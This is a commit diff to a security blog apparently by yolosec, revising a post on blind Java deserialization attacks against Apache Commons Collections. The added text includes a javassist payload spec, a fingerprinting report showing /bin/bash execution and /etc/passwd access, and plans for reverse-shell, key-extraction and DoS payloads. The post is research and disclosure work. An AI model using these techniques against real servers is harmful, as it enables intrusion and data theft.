

Before and after one commit to yolosec/deadcodeBlog, a Jekyll site: the page built from _posts/2016-09-18-Blind-Java-Deserialization-Part-II.markdown, in a window 1280 px wide and 1400 px high, scrolled down 4323 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
part 2 tweaking

````diff
--- a/_posts/2016-08-03-Blind-Java-Deserialization-Commons-Gadgets.markdown
+++ b/_posts/2016-08-03-Blind-Java-Deserialization-Commons-Gadgets.markdown
@@ -3,7 +3,7 @@ layout: post
 title:  "Blind Java Deserialization Vulnerability - Commons Gadgets"
 date:   2016-09-02 08:00:00 +0200
 categories: blog
-tags: hacking java deserialization commons blind
+tags: hacking java deserialization commons blind ysoserial
 excerpt_separator: <!-- more -->
 
 ---
--- a/_posts/2016-09-18-Blind-Java-Deserialization-Part-II.markdown
+++ b/_posts/2016-09-18-Blind-Java-Deserialization-Part-II.markdown
@@ -1,15 +1,15 @@
 ---
 layout: post
-title:  "Blind Java Deserialization - Part II - exploitation"
+title:  "Blind Java Deserialization - Part II - exploitation rev 2"
 date:   2016-09-18 08:00:00 +0200
 categories: blog
-tags: hacking java deserialization commons blind exploitation
+tags: hacking java deserialization commons blind exploitation ysoserial
 excerpt_separator: <!-- more -->
 
 ---
 
 TL;DR: The practical exploitation of the blind java deserialization technique introduced in the previous blog post.
-Practical demonstration of the victim fingerprinting and string extraction (properties, files).
+Practical demonstration of the victim fingerprinting and information extraction from the system (properties, files).
 
 <!-- more -->
 
@@ -56,8 +56,9 @@ to construct such payload dynamically so we decided to build the payload from th
 
 ## JSON spec {#json}
 
-JSON specification determines how the resulting payload is constructed.
-[Generator.java] then parses the JSON and returns the binary payload.
+JSON specification is a scheme for the payload. It determines how the resulting payload is constructed
+by the [Generator.java] which takes the JSON spec as an input and produces binary payload with the functionality defined
+in the spec.
 
 Here are a few examples of payload construction:
 
@@ -141,7 +142,22 @@ This is handy if the application expects the HashMap after deserialization. With
 }}}
 ```
 
+The following JSON spec is different from others. It does not use Transformer chain, but javassist approach (see the [Part 1]).
+With javassist exploit classes user does not have to express the logic with Transformers but can use Java code directly.
+Obviously the expressivity in this case is much greater, more sophisticated payloads can be constructed (e.g., reverse shell).
+This kind of exploits was not our main focus, but
+we also support these for testing if the destination machine is vulnerable (see report below):
+
+```json
+{"javassist":"cc3", "code":"java.lang.Thread.sleep(5000L);"}
+```
+
 To learn more on gadget construction consult the [Generator.java] sources.
+
+User does not have to write JSON spec directly, [Attack.java] implements few interesting use cases for the user (it
+internally constructs JSON spec, payload is generated and used). But writing those may come handy if you want to
+express a new functionality or build payloads separately - e.g., build a REST server generating payloads -
+request = JSON spec, response = generated payload.
 
 ## String extraction {#strings}
 
@@ -174,29 +190,7 @@ Our regex alphabet:
 [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
 ```
 
-Then the practical search goes like this:
-
-```
-String is null: false
-String is empty: false
---Max length guess: 1
---Max length guess: 2
---Max length guess: 4
---Max length guess: 8
---Max length guess: 16
-Length is between 7 and 16
---Length: 7 - 16, mid: 12
---Length: 7 - 11, mid: 9
---Length: 7 - 8, mid: 8
---[0]Range to test: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
---[0000]Length: 000 - 101, mid: 051. y: 1, range: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLM]                         vs [NOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
---[0000]Length: 000 - 051, mid: 026. y: 0, range: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./01234]                         vs [56789:;<=>?@ABCDEFGHIJKLM]
---[0000]Length: 026 - 051, mid: 039. y: 0, range: [56789:;<=>?@A]                         vs [BCDEFGHIJKLM]
---[0000]Length: 039 - 051, mid: 045. y: 0, range: [BCDEFG]                         vs [HIJKLM]
---[0000]Length: 045 - 051, mid: 048. y: 0, range: [HIJ]                         vs [KLM]
---[0000]Length: 048 - 051, mid: 050. y: 0, range: [KL]                         vs [M]
---[0]=✂M✂
-```
+The practical string extraction is demonstrated [below](#osname).
 
 ### Optimizations
 
@@ -215,17 +209,100 @@ The exploitation example is in [Attack.java] which demonstrates:
 - extraction of `os.name` property
 - extraction of `PATH` environment variable
 - extraction of `/etc/hosts` from the system
-- simple victim fingerprinting (java version, OS, security manager access, a few interesting properties)
+- simple victim fingerprinting (determines working exploit classes, java version, OS, security manager access, a few interesting properties)
+
+## Affected libraries
+
+The Blind attack is mainly focused on Apache Commons Collections library.
+[Affected versions] are Apache Commons Collections <= v3.2.1 and <= v4.0.
+The security problem is fixed in v3.2.2 and v4.1.
+
+## Further work
+
+* The work can be extended and added as a Metasploit module or Burp module.
+* Extending information extraction also to javassist exploits.
+* Implementation of reverse shell payload in javassist exploit class.
+* Improve the system fingerprinting, scan for running services (e.g., MySQL, Oracle, Tomcat).
+* Container fingerprinting (Tomcat, JBoss, WebSphere, ...).
+* Private key extraction from web servers & containers.
+* Implementation of DoS payloads.
 
 ## Demo {#demo}
 
-1. Start the [Deserialize test server]
+0. Clone [Deserialize test server] and [extended ysoserial].
+1. Start the [Deserialize test server].
 2. Test whether it is listening on port 8022 - in the readme of the server you find how to compile it and test it.
-3. Run the [GeneratorTest.java] test class. It constructs payloads from JSON specifications and runs them against the deserialize server.
-4. Run the [AttackTest.java] test class. It contains the exploitation technique demonstration described above.
+3. Run the [GeneratorTest.java] test class from the [extended ysoserial]. It constructs payloads from JSON specifications and runs them against the deserialize server.
+4. Run the [AttackTest.java] test class from the [extended ysoserial]. It contains the exploitation technique demonstration described above.
+The attack is launched against the test server and produces the report as below.
 5. Have fun.
 
-### os.name
+### Report - shortened
+The [Attack.java] runs an automated test against the victim to determine few interesting properties:
+
+```
+// Testing CommonsCollections - Transformer based, v3
+Sleep Commons01 worked: true
+Sleep Commons05 worked: true
+Sleep Commons06 worked: true
+
+// Testing javassist exploit classes
+// cc = CommonsCollections. cc2, cc4 uses v4 lib
+Javassist[       cb1] worked: false
+Javassist[       cc2] worked: false
+Javassist[       cc3] worked: true
+Javassist[       cc4] worked: false
+Javassist[ hibernate] worked: false
+Javassist[      weld] worked: false
+Javassist[     jboss] worked: false
+Javassist[      jdk7] worked: false
+Javassist[      json] worked: false
+Javassist[     rhino] worked: false
+Javassist[      rome] worked: false
+Javassist[   spring1] worked: false
+Javassist[   spring2] worked: false
+
+// Testing maximum length of the request
+// server accepts
+Length limit 1k passed: true
+Length limit 4k passed: true
+Length limit 16k passed: true
+Length limit 256k passed: true
+Exception in post Req
+Length limit 1M passed: false
+
+Java 4 version: true
+Java 5 version: true
+Java 6 version: true
+Java 7 version: true
+Java 8 version: true
+
+Security manager == null? true
+
+OS: win: false
+OS: mac: true
+OS: darwin: false
+OS: nux: false
+OS: sun: false
+OS: bsd: false
+
+OS: /bin/ping false
+OS: /sbin/ping true
+OS: /usr/bin/ping false
+OS: /usr/sbin/ping false
+OS: /usr/local/bin/ping false
+
+Can connect to google.com:80: true
+Can exec /bin/bash: true
+Can read /etc/passwd: true
+Can write to /tmp : true
+Can write to /var/tmp : true
+
+Going to extract property: os.name
+```
+
+### os.name {#osname}
+Example of a property extraction from the system.
 
 ```
 Going to extract property: os.name
@@ -314,38 +391,12 @@ Length is between 7 and 16
 Extracted string: Mac OS X
 ```
 
-### Report - shortened
-
-```
-Sleep worked: true
-Java 4 version: true
-Java 5 version: true
-Java 6 version: true
-Java 7 version: true
-Java 8 version: true
-Security manager == null? true
-OS: win: false
-OS: mac: true
-OS: darwin: false
-OS: nux: false
-OS: sun: false
-OS: bsd: false
-OS: /bin/ping false
-OS: /sbin/ping true
-OS: /usr/bin/ping false
-OS: /usr/sbin/ping false
-OS: /usr/local/bin/ping false
-Can connect to google.com:80: true
-Can exec /bin/bash: true
-Can read /etc/passwd: true
-Can write to /tmp : true
-Can write to /var/tmp : true
-```
-
 [Part 1]: https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html
 [ysoserial]: https://github.com/frohoff/ysoserial
+[extended ysoserial]: https://github.com/yolosec/ysoserial
 [Deserialize test server]: https://github.com/yolosec/deserialize-server
 [Generator.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Generator.java
 [Attack.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Attack.java
 [GeneratorTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/GeneratorTest.java
 [AttackTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/AttackTest.java
+[Affected versions]: https://commons.apache.org/proper/commons-collections/security-reports.html#Apache_Commons_Collections_Security_Vulnerabilities
````
